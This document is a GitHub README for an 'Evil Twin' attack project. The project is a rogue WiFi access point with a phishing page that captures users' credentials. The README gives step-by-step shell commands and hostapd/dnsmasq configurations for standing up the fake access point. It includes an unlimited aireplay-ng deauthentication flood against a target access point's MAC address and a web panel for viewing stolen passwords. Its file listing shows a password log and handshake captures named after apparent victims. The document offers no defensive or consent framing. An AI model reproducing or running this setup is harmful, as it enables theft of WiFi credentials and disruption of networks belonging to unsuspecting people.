# Evil Twin Attack Project

This project is designed to perform an Evil Twin attack, which involves creating a fake WiFi access point to capture credentials and other sensitive information from unsuspecting users.

## Project Structure

```
index.php
password_log.txt
cap/
    Aditya-01.cap
    AirFiber-01.cap
    charli-01.cap
    iphone-01.cap
    Redmi-01.cap
    tuhin-01.cap
css/
    bootstrap.min.css
img/
    air-fiber.png
    airtel.png
    bsnl.png
    d-link.png
    jio.png
    module_table_bottom.png
    module_table_top.png
    tp-link.png
    vi.png
    wi-fi.png
    wifi-sign.png
js/
    bootstrap.bundle.min.js.js
```

## Dependencies

- PHP
- Apache or any other web server
- Aircrack-ng suite
- Hostapd
- Dnsmasq
- Kali Linux (recommended for its pre-installed network analysis tools)

## Installation and Running

1. **Install Dependencies:**
   Make sure you have PHP, Apache, Aircrack-ng, Hostapd, and Dnsmasq installed on your Kali Linux system.

   ```sh
   sudo apt update
   sudo apt install php apache2 aircrack-ng hostapd dnsmasq
   ```

2. **Clone the Repository:**

   ```sh
   git clone <repository-url>
   cd <repository-directory>
   ```

3. **Move Project Files to Web Server Directory:**

   ```sh
   sudo cp -r * /var/www/html/
   ```

4. **Set Permissions:**

   ```sh
   sudo chown -R www-data:www-data /var/www/html/
   sudo chmod -R 755 /var/www/html/
   ```

5. **Start Apache Server:**

   ```sh
   sudo systemctl start apache2
   sudo systemctl enable apache2
   ```

6. **Configure Hostapd and Dnsmasq:**
   Create and configure `hostapd.conf` and `dnsmasq.conf` files.

   **hostapd.conf:**
   ```sh
   interface=wlan0
   driver=nl80211
   ssid=FakeAP
   hw_mode=g
   channel=6
   macaddr_acl=0
   auth_algs=1
   ignore_broadcast_ssid=0
   ```

   **dnsmasq.conf:**
   ```sh
   interface=wlan0
   dhcp-range=192.168.150.2,192.168.150.30,255.255.255.0,12h
   dhcp-option=3,192.168.150.1
   dhcp-option=6,192.168.150.1
   server=8.8.8.8
   log-queries
   log-dhcp
   listen-address=127.0.0.1
   ```

7. **Start Hostapd and Dnsmasq:**

   ```sh
   sudo hostapd /etc/hostapd/hostapd.conf
   sudo dnsmasq -C /etc/dnsmasq.conf -d
   ```

8. **Run the Attack:**
   Use Aircrack-ng suite to deauthenticate users from the legitimate AP and force them to connect to the fake AP.

   ```sh
   sudo airmon-ng start wlan0
   sudo aireplay-ng --deauth 0 -a <target-AP-MAC> wlan0
   ```

9. **Access the Web Interface:**
   Open your web browser and navigate to `http://localhost/index.php` to monitor captured credentials.

## Usage

- Ensure your wireless adapter supports monitor mode.
- Use the web interface to view captured credentials and other information.

## License

This project is licensed under the MIT License.